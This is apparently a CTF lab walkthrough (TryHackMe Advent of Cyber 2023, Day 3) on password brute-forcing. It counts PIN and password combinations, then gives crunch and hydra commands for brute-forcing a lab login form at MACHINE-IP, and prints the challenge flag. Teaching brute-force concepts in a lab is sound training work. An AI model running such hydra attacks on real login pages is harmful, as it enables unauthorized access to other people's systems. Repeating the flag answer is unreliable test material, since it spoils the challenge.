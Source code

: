 # Day 3

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/40a1d025-4fe8-4490-acdd-5bcdf22193f2)

# Scenario

The server room is securely locked, and the team must regain access to recover backup tapes. Brute-forcing the PIN panel stands out as the potential option.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/be86e8da-1c7a-4a1f-9d83-d0cc82af0cbe)


## Learning Objectives

Upon completing this task, you will gain an understanding of:
    
    - Password complexity and the count of possible combinations.
    - The impact of the number of possible combinations on the feasibility of brute force attacks.
    - Generating password combinations using `crunch`.
    - Automated password trials using `hydra`.

## Feasibility of Brute Force

### Inquiries

    1. How many distinct PIN codes exist?
    2. How many passwords can be generated?
    3. What is the time estimate for finding the password via brute force?

## Counting the PIN Codes

Many systems depend on PIN codes or passwords for user authentication. Without proper security measures, such systems are susceptible to various attacks. Here, we explore brute force attacks, where an adversary systematically tries all possible combinations of a given password.

Consider a scenario where a four-digit PIN code must be selected. The total count would be 10,000 different PIN codes: 0000, 0001, 0002,..., 9998, and 9999. Mathematically, this is 10×10×10×10 or simply 10^4 different PIN codes.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/6e1c8b72-7e67-4fcb-8f1d-7ad686b1246e)


## Counting the Passwords

Let's imagine a scenario with a four-character password, where each character can be:

    - A digit: We have 10 digits (0 to 9).
    - An uppercase English letter: We have 26 letters (A to Z).
    - A lowercase English letter: We have 26 letters (a to z).

Therefore, each character can be one of 62 different choices. Consequently, for a four-character password, we can create 62×62×62×62 = 62^4 = 14,776,336 different passwords.

To enhance complexity, symbols can be added, expanding the set of choices by more than 30 characters.

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/cebdf03b-911a-4b72-b045-43939842a530)




We can make passwords more secure by increasing the password complexity. This can be achieved by specifying a minimum password length and character variety. For example, the character variety might require at least one uppercase letter, one lowercase letter, one digit, and one symbol.


# Day 3 Tasks:

## 1. Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?

### PIN Code Retrieval Using crunch and hydra

1. **Objective:** Using `crunch` and `hydra`, discover the PIN code to access the control system and unlock the door. Identify the flag.

2. **Procedure:**
   
         - Navigate to [http://MACHINE-IP:8000/login.php](http://MACHINE-IP:8000/login.php).
         - Identify that the system utilizes a 3-digit password.
         - Generate a password list with `crunch` using the following command:

   ![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/0f48b3f2-5b6d-47da-a8f3-43dcb29aafde)

   
     ```bash
     crunch 3 3 0123456789ABCDEF -o 3digits.txt
     ```
```

╰─ crunch 3 3 0123456789ABCDEF -o 3digits.txt                                             ─╯
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

crunch: 100% completed generating output
```


## Password Cracking with Hydra

1. **Objective:** Utilize `Hydra` to crack the password using the previously created wordlist and access the control system.

2. **Procedure:**
   - Use the following `hydra` command:
   
     ```bash
     hydra -l '' -P 3digits.txt -f -v MACHINE-IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
     ```
   
   - Explanation of the command:
     - `-l ''`: Specifies an empty username.
     - `-P 3digits.txt`: Specifies the password list generated using `crunch`.
     - `-f`: Stops the attack upon successful password discovery.
     - `-v`: Enables verbose mode.
     - `http-post-form "/login.php:pin=^PASS^:Access denied"`: Defines the login form parameters.
     - `-s 8000`: Specifies the port.

3. **Unlocking the Device:**
   - After obtaining the password, log in using the discovered PIN code.
   - Unlock the device to retrieve the flag.

4. **Flag:**
   - The flag is revealed upon successfully unlocking the device:

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/323d8f1d-05e5-40ca-be5d-5150e83e97f2)

   
     ```
     THM{pin-code-brute-force}
     ```

